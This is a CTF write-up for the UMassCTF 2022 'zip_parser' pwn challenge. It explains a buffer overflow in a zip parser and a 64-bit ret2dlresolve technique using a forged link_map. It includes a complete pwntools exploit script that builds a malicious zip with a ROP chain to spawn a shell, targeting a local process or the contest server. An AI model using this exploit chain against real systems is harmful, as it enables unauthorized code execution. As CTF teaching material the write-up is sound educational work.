

# zip_parser

ret2dlresolve on x86_64 with large gap between text and writable sections

by garywei944 on 4/4/2022

## TL;DR

`zip_parser` is a pwn challenge on UMass CTF 2022. The binary mimics a real
world scenario of a zip parser that contains a buffer overflow vulnerability
due to lack of boundary check. What makes the challenge extremely hard and
non-trivial is that the binary doesn't have any output function loaded on the
GOT, which makes it impossible to leak any memory before exploitation.
ret2dlresolve attack is a suitable solution in such scenario.

Also, yet the pwntools automation functions for ret2dlresolve works well for
this challenge, it doesn't work for some 64-bit binaries with large gap between
text and writable sections. I used an approach of manually forging link_map to
deal with such issue.

In this writeup, I will go through the thought process from developing this
challenge, and including a detailed explanation to my approach of ret2dlresolve
and multiple counterpart approaches.

## Static Analysis

To investigate the challenge binary, we can begin with some checksec and
reverse engineering.

### checksec


### Reversing

Loading up the binary in Ghidra gives us a pretty messy decompiled code at
first. But reversing engineering won't be the majority of this writeup, so I'd
quickly go through the decompiled code and talk about what could we do to
exploit it.

#### `main()`


`main()` function is the entry point to the binary. It read the size of zip
file first, and then read the zip file. It parses *End of Central Directory*,
*Central Directory*, *Local Header* in order after read.


#### `parse_head()`


Recall the layout of zip file and ***End of central directory record (
EOCD)***


`parse_head()` search for the keyword `0x06054b50` that recognize EOCD and load
useful information from it. The parsed data is then stored in a header struct
that I defined in Ghidra to make the code more readable.

line 18 checks `comp_size <= 0x80`, but it won't be used anyway in the rest of
the program.

#### `parse_centdir()`


`parse_centdir()` parse n sections of ***Central directory file header***.


#### `parse_data()`


`parse_data()` read data from the Local file header, `memcpy` the compressed
data to a buffer on stack and then `strcpy` it to a newly allocated buffer on
heap.


Here comes our buffer flow vulnerability. The `comp_size` is read in line 15
and 18 without any boundary check, and it could be a different number from the
one loaded above by `parser_centdir()`. So we are eventually able to read a
large number of bytes from the zip file we make onto the stack, causing buffer
overflow and executing our ROP exploitation.

## Exploitation

The most intuitive method to spawn a shell by a ROP exploitation is ret2libc.
But take a look at GOT via `readelf -r chal`

```text
Relocation section '.rela.dyn' at offset 0x618 contains 5 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000403ff0  000400000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000403ff8  000700000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000404080  000c00000005 R_X86_64_COPY     0000000000404080 stdout@GLIBC_2.2.5 + 0
000000404090  000d00000005 R_X86_64_COPY     0000000000404090 stdin@GLIBC_2.2.5 + 0
0000004040a0  000e00000005 R_X86_64_COPY     00000000004040a0 stderr@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x690 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000404018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 strcpy@GLIBC_2.2.5 + 0
000000404020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 setbuf@GLIBC_2.2.5 + 0
000000404028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000404030  000500000007 R_X86_64_JUMP_SLO 0000000000000000 memcmp@GLIBC_2.2.5 + 0
000000404038  000600000007 R_X86_64_JUMP_SLO 0000000000000000 fgets@GLIBC_2.2.5 + 0
000000404040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 memcpy@GLIBC_2.14 + 0
000000404048  000900000007 R_X86_64_JUMP_SLO 0000000000000000 malloc@GLIBC_2.2.5 + 0
000000404050  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 atoi@GLIBC_2.2.5 + 0
000000404058  000b00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0
```

No print function is loaded to this binary. So we can't leak the location of
libc or further return to a `system` libc call.

### ret2dlresolve

After hours of googling, ret2dlresolve is the attack method that works if we
can execute a ROP chain but can't leak any address from memory.

I have found these online resources that are crucial for me to solve this
challenge. *(Bear with me the most useful one is in Chinese)*

#### Very helpful Resources

- [ret2dlresolve超详细教程(x86&x64)](https://blog.csdn.net/qq_51868336/article/details/114644569)
  \- the resource that I followed to develop this exploitation
- [redpwnCTF 2021 - devnull-as-a-service (pwn)](https://activities.tjhsst.edu/csc/writeups/redpwnctf-2021-devnull)
  \- clear and understandable explanation to ret2dlresolve
- [0ctf babystack with return-to dl-resolve](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)
  \- another understandable explanation to ret2dlresolve, but on x86
- [ret2dlresolve利用方法](https://blog.csdn.net/qq_38204481/article/details/90074190)
  \- explanation of ret2dlresolve with diagrams, but in Chinese and on x86

#### `__dl_runtime_resolve` in short

In short, for a binary with Partial RELRO, when a function is about to be
called for the first time, the dynamic linker need to load its address from the
library. `__dl_runtime_resolve(link_map, rel_offset)` is called to do the job.

To do so, the running program

1. jumpy to `func@.plt` (using index 1 for example)
    1. `0x401044` pushes the index 1 onto the stack, which is the index of such
       function on GOT, used as `rel_offset` later
2. jump to `.plt`
    1. `0x401020` pushes `0x404008 <_GLOBAL_OFFSET_TABLE_+0x8>` onto the stack,
       which is a pointer points to the ture `link_map` in `ld.so`.
    2. `0x401026` jump to `*0x404010 <_GLOBAL_OFFSET_TABLE_+0x10>`, which is a
       pointer points to the actual address of `__dl_runtime_resolve()`.

```text
$ objdump -dS chal

...
Disassembly of section .plt:

0000000000401020 <.plt>:
  401020:	ff 35 e2 2f 00 00    	pushq  0x2fe2(%rip)        # 404008 <_GLOBAL_OFFSET_TABLE_+0x8>
  401026:	f2 ff 25 e3 2f 00 00 	bnd jmpq *0x2fe3(%rip)        # 404010 <_GLOBAL_OFFSET_TABLE_+0x10>
  40102d:	0f 1f 00             	nopl   (%rax)
  401030:	f3 0f 1e fa          	endbr64 
  401034:	68 00 00 00 00       	pushq  $0x0
  401039:	f2 e9 e1 ff ff ff    	bnd jmpq 401020 <.plt>
  40103f:	90                   	nop
  401040:	f3 0f 1e fa          	endbr64 
  401044:	68 01 00 00 00       	pushq  $0x1
  401049:	f2 e9 d1 ff ff ff    	bnd jmpq 401020 <.plt>
  40104f:	90                   	nop
...
```

3. inside `__dl_runtime_resolve()`,
    1. pop the address of `link_map` and `rel_offset` from the stack
    2. locate the strut in `.dynamic` for `.rel.plt` using `link_map`
    3. locate `.rel.plt` using data in `.dynamic` and `rel_offset`
    4. locate `.symtab` using data in `.rel.plt`
    5. locate `.strtab` using data in `symtab` and load its name, e.g. "system"
    6. load the address of such function from the library into GOT
4. call the function with arguments in registers

#### ret2dlresolve in general

However, if we push a corrupt `rel_offset` on stack first then directly return
to `.plt`, the resolver would use it to locate the fake `.rel.plt`,
fake `.symtab`, fake `.strtab` in order, and eventually load our desired
function from the library instead of the supposed one.

Therefore, to conduct a ret2dlresolve, we only need to

1. make up fake `.rel.plt`, `.symtab`, and `.strtab` tables carefully
2. write the fake tables to a writable area on stack, noted as `forged_area`
3. calculate `rel_offset = (forged_area - JMPREL) // <size of the struct>`, now
   the resolver would find our fake `.rel.plt` table instead of the real one
   due to lack of boundary check.
4. make `rel_offset` the next value on stack
5. return to `.plt`, then the resolver should resolver our desired function and
   call it

This approach usually works well on 32-bit binary. After reading the source
code of
pwntools [Ret2dlresolvePayload](https://github.com/Gallopsled/pwntools/blob/67b28491a4/pwnlib/rop/ret2dlresolve.py#L215-L369)
and [rop.ret2dlresolve](https://github.com/Gallopsled/pwntools/blob/67b28491a4/pwnlib/rop/rop.py#L1501-L1513)
, I realized that this is also the general approach to conduct ret2dlresolve on
64-bit machine. But it doesn't always work out.

#### Problems on 64-bit machine with large page

The above approach has problems for 64-bit binary with large gap between text
and writable sections. `_dl_fixup`  plays a role here which is not an issue on
32-bit machines. It is explained in detail
in [redpwnCTF 2021 - devnull-as-a-service (pwn)](https://activities.tjhsst.edu/csc/writeups/redpwnctf-2021-devnull) '
s write up.

> The problem with this attack is that _dl_fixup uses the same array index for both SYMTAB and VERSYM. Each element in each of these arrays is a different size (24 and 2 bytes, respectively), so using the same index for both results in vastly different addresses for the structs. In binaries with BSS close to the other sections, this can sometimes work out. However, in 64-bit binaries that use huge pages (so BSS is very far from the other sections), this guarantees a segmentation fault when trying to index VERSYM if the structs are placed in BSS.

This is the case where pwntools automation ret2dlresolve doesn't work.

```text
[!] Ret2dlresolve is likely impossible in this ELF (too big gap between text and writable sections).
    If you get a segmentation fault with fault_addr = 0x42afd8, try a different technique.
```

#### pwntools automation ret2dlresolve solution

Fortunately, the binary for this challenge doesn't have the issue above.
Looking up the sections' headers, we can tell `.bss` is at `0x404080`
and `.rela.plt` is at `0x400690`.

```text
$ readelf -S chal

There are 31 section headers, starting at offset 0x3c60:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
...
  [11] .rela.plt         RELA             0000000000400690  00000690
       00000000000000d8  0000000000000018  AI       6    24     8
...
  [26] .bss              NOBITS           0000000000404080  00003070
       0000000000000048  0000000000000000  WA       0     0     32
...
```

So the most intuitive solution to this challenge is to use pwntools automation
ret2dlresolve functions. [seal9055](https://github.com/seal9055), the author of
this challenge, gives his surprisingly nice and
concise [exploitation script](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges/blob/main/pwn/zip_parser/solver/exploit.py)
by this method.

### Another approach to ret2dlresolve - corrupt `.dynamic`

Another approach is described
in [redpwnCTF 2021 - devnull-as-a-service (pwn)](https://activities.tjhsst.edu/csc/writeups/redpwnctf-2021-devnull)
. It makes a lot of confusion to me at first because he has a variable
named `link_map` in the exploitation. However, it turns out that he didn't
manually make a `link_map`, but to corrupt the address of DT_STRTAB
in `.dynamic` and only make a fake `.strtab` table with the string `system`.

This approach seems much easier than the previous one, but the only problem is
that it seems the `.dynamic` section is not writable in most of the cases. I'm
not sure if he successfully make the exploitation work.

### Yet another approach to ret2dlresolve - manually forge `link_map`

Yet another idea is proposed
by [ret2dlresolve超详细教程(x86&x64)](https://blog.csdn.net/qq_51868336/article/details/114644569)
, and I didn't find an English resource related to it.

The big idea comes from the implementation of `_dl_fixup()`, we have to dive
into the source code of it. I simplified the source code and add some comments
for better understanding.

```cpp
// https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html

_dl_fixup(struct link_map *l, ElfW(Word) reloc_arg) {
  // Load address of DT_SYMTAB from link_map, DT_SYMTAB = 6
  const ElfW(Sym) *const symtab = (const void *)D_PTR(l, l_info[DT_SYMTAB]);
  // Load address of DT_SYMTAB from link_map, DT_STRTAB = 5
  const char *strtab = (const void *)D_PTR(l, l_info[DT_STRTAB]);
  // Load the coresponding struct from .rela.plt, DT_JMPREL = 23
  const PLTREL *const reloc =
      (const void *)(D_PTR(l, l_info[DT_JMPREL]) + reloc_offset);
  // Load the coresponding struct from .symtab
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM)(reloc->r_info)];
  const ElfW(Sym) *refsym = sym;

  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  /* Sanity check that we're really looking at a PLT relocation.  */
  // Check if the least bit of r_info is 7
  assert(ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
  /* Look up the target symbol.  If the normal lookup rules are not
     used don't look in the global scope.  */
  // Check if sym->st_other == 0, normally it should be
  if (__builtin_expect(ELFW(ST_VISIBILITY)(sym->st_other), 0) == 0) {
    const struct r_found_version *version = NULL;

    // Check if DT_VERSYM in link_map is NULL, normally it's not
    if (l->l_info[VERSYMIDX(DT_VERSYM)] != NULL) {
      /* ***********************************************************************
        Segmentation fault: this is where ret2dlresolve doesn't work on 64-bit
        machine with large page.

        When executing vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff to compute
        the version number, the big gap between BSS and SYMTAB makes
        reloc->r_info too large and finally lead to a segmentation fault.

        To work around it, the first choice is to make the DT_VERSYM in link_map
        to be NULL. To do so, we need to leak the address of link_map, which
        then we makes ret2dlresolve dumb.

        The second choice is to make the outter if failed, so we need to set
        sym->st_other (the 6th byte of the struct) not equals to 0, and jump to
        the next else.
      *********************************************************************** */
      const ElfW(Half) *vernum =
          (const void *)D_PTR(l, l_info[VERSYMIDX(DT_VERSYM)]);
      ElfW(Half) ndx = vernum[ELFW(R_SYM)(reloc->r_info)] & 0x7fff;
      version = &l->l_versions[ndx];
      if (version->hash == 0) version = NULL;
    }
    /* We need to keep the scope around so do some locking.  This is
       not necessary for objects which cannot be unloaded or when
       we are not using any threads (yet).  */
    int flags = DL_LOOKUP_ADD_DEPENDENCY;
    if (!RTLD_SINGLE_THREAD_P) {
      THREAD_GSCOPE_SET_FLAG();
      flags |= DL_LOOKUP_GSCOPE_LOCK;
    }

    // The program won't crash in 32-bit machine and result is the successfully
    // loaded base address of libc.
    result = _dl_lookup_symbol_x(strtab + sym->st_name, l, &sym, l->l_scope,
                                 version, ELF_RTYPE_CLASS_PLT, flags, NULL);
    /* We are done with the global scope.  */
    if (!RTLD_SINGLE_THREAD_P) THREAD_GSCOPE_RESET_FLAG();
    /* Currently result contains the base load address (or link map)
       of the object that defines sym.  Now add in the symbol
       offset.  */
    // Similarly, on 32-bit machine, the function address is computed by
    // value = result + st_value
    value = DL_FIXUP_MAKE_VALUE(result, SYMBOL_ADDRESS(result, sym, false));
  } else {
    /* *************************************************************************
      This is the key point for my approach, if we make the if statement above
      failed, the function address is computed by

      value = l->l_addr + st_value

      Theoretically, we can contol these 2 parameter in .symtab and link_map and
      resolve to the function that we need by set

      l_addr = addr_system - addr_xxxx

      and

      value = addr_system - addr_xxxx + real_xxxx = real_system
    ************************************************************************* */
    /* We already found the symbol.  The module (and therefore its load
       address) is also known.  */
    value = DL_FIXUP_MAKE_VALUE(l, SYMBOL_ADDRESS(l, sym, true));
    result = l;
  }
  /* And now perhaps the relocation addend.  */
  value = elf_machine_plt_value(l, reloc, value);
  if (sym != NULL &&
      __builtin_expect(ELFW(ST_TYPE)(sym->st_info) == STT_GNU_IFUNC, 0))
    value = elf_ifunc_invoke(DL_FIXUP_VALUE_ADDR(value));
  /* Finally, fix up the plt itself.  */
  if (__glibc_unlikely(GLRO(dl_bind_not))) return value;

  // FInally, write value into GOT
  return elf_machine_fixup_plt(l, result, refsym, sym, reloc, rel_addr, value);
}
```

So our next goal is to forge `link_map->l_addr` and `sym->st_value` to be

- `link_map->l_addr = addr_system - addr_xxxx`
- `sym->st_value = real_xxxx`

and set the 6th byte of sym not equals to zero. So that we would have

```text
value = addr_system - addr_xxxx + real_xxxx = real_system
```

as the resolved address. To do so, we need to refer to the struct used
in `.symtab`.

```cpp
typedef struct {
  Elf64_Word st_name;     // 4 bytes /* Symbol name (string tbl index) */
  unsigned char st_info;  // 1 byte  /* Symbol type and binding */
  unsigned char st_other; // 1 byte  /* Symbol visibility */
  Elf64_Section st_shndx; // 2 bytes /* Section index */
  Elf64_Addr st_value;    // 8 bytes /* Symbol value */
  Elf64_Xword st_size;    // 8 bytes /* Symbol size */
} Elf64_Sym;
```

If we can make the DT_SYMTAB pointer points to `xxxx@got - 0x8` after several
look-ups, we will have `st_value = real_xxxx`, and with great
chane `st_other != 0`.

With all theory set up, we are ready to forge the `link_map` and other tables.

#### Forge `link_map`

Recall the struct of `link_map`

```cpp
struct link_map {
  /* Difference between the address in the ELF
   file and the addresses in memory.  */
  Elf64_Addr l_addr;  // 8 bytes

  char *l_name;     // 8 bytes /* Absolute file name object was found in.  */
  Elf64_Dyn *l_ld;  // 8 bytes /* Dynamic section of the shared object.  */
  struct link_map *l_next;  // 8 bytes /* Chain of loaded objects.  */
  struct link_map *l_prev;  // 8 bytes /* Chain of loaded objects.  */

  /* All following members are internal to the dynamic linker.
     They may change without notice.  */
  /* This is an element which is only ever different from a pointer to
     the very same copy of this type for ld.so when it is used in more
     than one namespace.  */
  struct link_map *l_real;  // 8 bytes
  /* Number of the namespace this link map belongs to.  */
  Lmid_t l_ns;                     // 8 bytes
  /* Indexed pointers to dynamic section. */
  struct libname_list *l_libname;  // 8 bytes
  // l_info contains all the sym tables, 77 * 8 bytes
  // l_info[5] is ptr to DT_STRTAB
  // l_info[6] is ptr to DT_SYMTAB
  // l_info[23] is ptr to DT_JMPREL
  Elf64_Dyn *l_info[77];
  ... size_t l_tls_firstbyte_offset;
  ptrdiff_t l_tls_offset;
  size_t l_tls_modid;
  size_t l_tls_dtor_count;
  Elf64_Addr l_relro_addr;
  size_t l_relro_size;
  unsigned long long l_serial;
  struct auditstate l_audit[];
}
```

Here we only cares about

- `l_addr` at offset 0x0
- `l_info[5]` at offset 0x68 that points to `.strtab`
- `l_info[6]` at offset 0x70 that points to `.symtab`
- `l_info[23]` at offset 0xf8 that points to `.rel.plt`

```python
BITMAP_64 = (1 << 64) - 1

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]

# link_map
link_map = flat({
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: some_addr,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: some_addr,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: some_addr,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC
})
```

#### Forge DT_JMPREL, DT_SYMTAB, and DT_STRTAB

Tracking the `link_map` on gdb


1. GOT[2], ptr to `link_map`
2. the `link_map`
3. `l_info[23]` in `link_map`, ptr to DT_JMPREL in _DYNAMIC
4. DT_JMPREL in _DYNAMIC, ptr to DT_JMPREL. The struct contains `d_tag`,
   and `d_val`, 16 bytes in total.
5. DT_JMPREL, the `.rel.plt` table, we can tell `0x404018` at the first entry
   is the address for `strcpy@got`

So we need to make a struct for fake _DYNAMIC, and a struct for fake `.rel.plt`

```python
# DT_JMPREL in _DYNAMIC
_jmprel_dyn = flat([
    0,  # d_tag
    some_addr  # d_val, ptr to DT_JMPREL
])

# DT_JMPREL
jmprel = flat([
    # normally this points to the real GOT, now we need an area to read/write.
    some_addr,  # rela->r_offset
    7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
    0  # # rela->r_addend
]),
```

DT_SYMTAB and DT_STRTAB works almost the same. We need a struct for fake
DT_SYMTAB in _DYNAMIC, a struct for fake `.symtab`, and a `\bin\sh\00` string.

Merge the forged tables together, we end up with the following `forge_data`.
For no good reason, I use `.bss + 0x100` to write the forge data.

```python
BITMAP_64 = (1 << 64) - 1

forge_area = elf.get_section_by_name(".bss")["sh_addr"] + 0x100

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]

forge_data = flat({
    # link_map
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: forge_area,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: forge_area + 0x38,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: forge_area + 0x8,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC

    # _DYNAMIC
    # for DT_JMPREL
    0x8: flat([
        0,  # d_tag
        forge_area + 0x18  # d_val, ptr to DT_JMPREL
    ]),
    # for DT_SYMTAB
    0x38: flat([
        0,  # d_tag 
        elf.got[target_func] - 0x8  # d_val, ptr to DT_SYMTAB
        # s.t. st_value pts to the target function in GOT
    ]),

    # DT_JMPREL
    0x18: flat([
        # normally this points to the real GOT, now we need an area to read/write.
        forge_area - l_addr,  # rela->r_offset
        7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
        0  # # rela->r_addend
    ]),

    # DT_STRTAB
    0x48: b'/bin/sh\00',
})
```

### Make ROP chain

The ROP chain would be relatively simple.

1. read the `forge_data`   into `.bss + 0x100`
2. call `_dl_runtime_resolve` with the parameters and put `rel_offset`
   and `link_map` on stack
3. align the stack if needed

```python
rop = ROP([elf])

# bypass push link_map by adding 0x6 offset
resolver = elf.get_section_by_name(".plt")["sh_addr"] + 0x6

rop.read(0, forge_area, len(forge_data))  # read the link_map
rop.raw(rop.ret)  # align stack to 0x10 to call system successfully
rop.call(resolver, [forge_area + 0x48])  # call system("/bin/sh")
rop.raw(forge_area)  # link_map
rop.raw(0)  # rel_offset
```

### Construct zip file

Recall the zip file structure from above. Just need to be careful enough and
follow the file structure, we can make a zip file with our ROP chain. The local
buffer on `parse_data` stack is located at `rbp - 0xa0`, so we need 0xa8 bytes
in compressed data to trigger the buffer overflow.

```python
PH = b'A'  # place holder

# Make compressed data
comp_data = PH * 0xa8
comp_data += rop.chain()

# 1. Make local file header
comp_size = len(comp_data)
len_file_name = 8  # for easier alignment
len_extra_field = 0
len_comment = 0

LFH = p32(0x04034b50)
LFH += PH * 14
LFH += p32(comp_size)  # Compressed size
LFH += PH * 4
LFH += p16(len_file_name)  # length file name
LFH += p16(len_extra_field)  # length of extra field
LFH += PH * len_file_name  # file name
LFH += PH * len_extra_field  # extra field

# 2. Make Central directory file header
CDFH = p32(0x02014b50)
CDFH += PH * 16
CDFH += p32(0x40)  # Compressed size, HACKED
CDFH += PH * 4
CDFH += p16(len_file_name)  # File name length
CDFH += p16(len_extra_field)  # Extra field length
CDFH += p16(len_comment)  # File comment length
CDFH += PH * 8
CDFH += p32(0)  # Relative offset of local file header.
CDFH += PH * len_file_name  # file name
CDFH += PH * len_extra_field  # extra field
CDFH += PH * len_comment  # comment

# 3. Make End of central directory record (EOCD)
cd_size = len(CDFH)
# Offset of start of central directory, relative to start of archive
cd_offset = len(LFH) + len(comp_data)

EOCD = p32(0x06054b50)  # End of central directory record
EOCD += PH * 6
# Total number of central directory records
EOCD += p16(1)
# Size of central directory (bytes)
EOCD += p32(cd_size)
# Offset of start of central directory, relative to start of archive
EOCD += p32(cd_offset)
EOCD += PH * 2

zip_file = LFH + comp_data + CDFH + EOCD
size_t = len(zip_file)
```

The final zip file is 394 bytes.

### Send payloads

```python
# Send size t
payload = str(size_t + 1).rjust(8, '0').encode()
io.send(payload)

# Send zip file with ROP
io.send(zip_file)

# Send fake link map
io.send(forge_data)

io.interactive()
```

At last, we just need to send the zip file with ROP included, and the program
should read the `forge_data` on to `forge_area`. We can verify it in gdb that
the program return to `_dl_runtime_resolve` with the correct register and stack
setup.


1. pointer to the forge `link_map` is the first value on stack, followed by
   the `rel_offset = 0`
2. we can see the `l_addr` value matched
3. `/bin/sh` is on rdx

Therefore, we resolve to `system` successfully with the desired parameter.


## Execution

Finally, we finish our exploitation and everything is ready to go.

```python
from pwn import *

PH = b'A'

context.terminal = ['tmux', 'splitw', '-h']

elf = context.binary = ELF('./chal')
libc = ELF('libc.so.6')

local = True

if local:
    io = elf.process()
else:
    host = '34.139.216.197'
    port = 7293
    io = remote(host, port)

if args.GDB:
    gdb.attach(io, """
        b *parse_data+522
        c
        n 14
    """)

###############################################################################
# ret2dlresolve
###############################################################################
rop = ROP([elf])

# bypass push link_map by adding 0x6 offset
resolver = elf.get_section_by_name(".plt")["sh_addr"] + 0x6
forge_area = elf.get_section_by_name(".bss")["sh_addr"] + 0x100
SYMTAB = elf.dynamic_value_by_tag('DT_SYMTAB')
STRTAB = elf.dynamic_value_by_tag('DT_STRTAB')
JMPREL = elf.dynamic_value_by_tag('DT_JMPREL')

log.info('-' * 50)
log.info(f'_dl_resolve address: {hex(resolver)}')
log.info(f'.dynsym address: {hex(SYMTAB)}')
log.info(f'.dynstr address: {hex(STRTAB)}')
log.info(f'.rel.plt address: {hex(JMPREL)}')
log.info(f'writable buffer address: {hex(forge_area)}')

###############################################################################
# Forge link_map and other tables
###############################################################################
BITMAP_64 = (1 << 64) - 1

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]
log.info('-' * 50)
log.info('Making fake link_map')
log.info(f'system@libc - {target_func}@libc: {hex(l_addr)}')

forge_data = flat({
    # link_map
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: forge_area,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: forge_area + 0x38,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: forge_area + 0x8,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC

    # _DYNAMIC
    # for DT_JMPREL
    0x8: flat([
        0,  # d_tag
        forge_area + 0x18  # d_val, ptr to DT_JMPREL
    ]),
    # for DT_SYMTAB
    0x38: flat([
        0,  # d_tag
        elf.got[target_func] - 0x8  # d_val, ptr to DT_SYMTAB
        # s.t. st_value pts to the target function in GOT
    ]),

    # DT_JMPREL
    0x18: flat([
        # normally this points to the real GOT, now we need an area to read/write.
        forge_area - l_addr,  # rela->r_offset
        7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
        0  # # rela->r_addend
    ]),

    # DT_STRTAB
    0x48: b'/bin/sh\00',
})

log.info(f'Finish make the link_map, etc, size: {hex(len(forge_data))}')

rop.read(0, forge_area, len(forge_data))  # read the link_map
rop.raw(rop.ret)  # align stack to 0x10 to call system successfully
rop.call(resolver, [forge_area + 0x48])  # call system("/bin/sh")
rop.raw(forge_area)  # link_map
rop.raw(0)  # rel_offset

###############################################################################
# Make zip file
###############################################################################

# Make compressed data
comp_data = PH * 0xa8
comp_data += rop.chain()

# 1. Make local file header
comp_size = len(comp_data)
len_file_name = 8  # for easier alignment
len_extra_field = 0
len_comment = 0

LFH = p32(0x04034b50)
LFH += PH * 14
LFH += p32(comp_size)  # Compressed size
LFH += PH * 4
LFH += p16(len_file_name)  # length file name
LFH += p16(len_extra_field)  # length of extra field
LFH += PH * len_file_name  # file name
LFH += PH * len_extra_field  # extra field

# 2. Make Central directory file header
CDFH = p32(0x02014b50)
CDFH += PH * 16
CDFH += p32(0x40)  # Compressed size, HACKED
CDFH += PH * 4
CDFH += p16(len_file_name)  # File name length
CDFH += p16(len_extra_field)  # Extra field length
CDFH += p16(len_comment)  # File comment length
CDFH += PH * 8
CDFH += p32(0)  # Relative offset of local file header.
CDFH += PH * len_file_name  # file name
CDFH += PH * len_extra_field  # extra field
CDFH += PH * len_comment  # comment

# 3. Make End of central directory record (EOCD)
cd_size = len(CDFH)
# Offset of start of central directory, relative to start of archive
cd_offset = len(LFH) + len(comp_data)

EOCD = p32(0x06054b50)  # End of central directory record
EOCD += PH * 6
# Total number of central directory records
EOCD += p16(1)
# Size of central directory (bytes)
EOCD += p32(cd_size)
# Offset of start of central directory, relative to start of archive
EOCD += p32(cd_offset)
EOCD += PH * 2

zip_file = LFH + comp_data + CDFH + EOCD
size_t = len(zip_file)

log.info(f'Finished making zip file, size: {size_t} bytes')

###############################################################################
# Execution
###############################################################################

log.info('-' * 50)

# Send size t
payload = str(size_t + 1).rjust(8, '0').encode()
io.send(payload)

# Send zip file with ROP
io.send(zip_file)

# Send fake link map
io.send(forge_data)

io.interactive()
```



## Thoughts

It literally took me a whole day to research on ret2dlresolve and exploit the
binary during the 48h competition. I didn't completely understand what was
going on even after I captured the flag. Then it took me another entire day to
further dive into the topic and make this writeup.

I was surprised by seal0955's solution that does the ret2dlresolve exploitation
with only 2 pwntools functions. So I decide to dive in to see if my time
deserved. It turns out that I was working on an approach that quite different
from what pwntools does and deals with more stiff cases.

3 groups solved this challenge during the competition. One group successfully
partially overwrite GOT and call `system@libc` without ret2dlresolve.

I read through most of the 64-bit ret2dlresolve writeup from Google and didn't
see another one use a similar strategy that has to look into the source code
implementation of `_dl_fixup()`. So I decide to make this writeup more in
details.

## Limitation

1. We have to know the libc version to calculate `l_addr`. It's the same
   limitation to the partially overwrite GOT approach. But in theory, pwntools
   ret2dlresolve doesn't need to know the libc version b/c it loads the
   function up by its name.
2. Not really some idea derived from theory. It really depends on the
   implementation of `ld.so`. So it probably won't work for a different
   implementation of `ld.so`.
